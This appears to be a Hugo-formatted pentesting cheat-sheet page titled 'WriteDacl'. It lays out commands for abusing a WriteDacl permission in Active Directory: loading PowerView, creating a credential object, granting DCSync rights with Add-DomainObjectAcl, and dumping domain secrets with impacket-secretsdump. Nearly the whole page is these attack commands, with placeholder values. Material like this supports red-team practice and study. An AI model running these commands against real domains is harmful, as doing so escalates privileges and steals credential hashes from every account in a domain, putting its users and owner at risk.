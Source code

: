 ```yaml
---
title: "WriteDacl"
date: 2024-7-12
tags: ["WriteDacl", "active driectory", "ad", "Windows", "dcsync", "secretsdump"]
---
```


---
### Abuse #1: Add dcsync right to user

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import PowerView.ps1 

<div>

```powershell
. .\PowerView.ps1
```

</div>

#### 2. Create cred object (runas) \[optional\]

<div>

```powershell
$username = "<DOMAIN>\<USER>"
```

```powershell
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force
```

```powershell
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

</div>

#### 3. Add dcsync right

<div>

```powershell
Add-DomainObjectAcl -PrincipalIdentity <USER> -TargetIdentity '<DOMAIN>\<TARGET_GROUP>' -Rights DCSync -Credential $cred
```

</div>

{{< /tabcontent >}}

### 4. Secrets dump

{{< tab set2 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set2 tab1 >}}

<div>

```bash
impacket-secretsdump <USER>:<PASSWORD>@<TARGET>
```

</div>

{{< /tabcontent >}}

<br>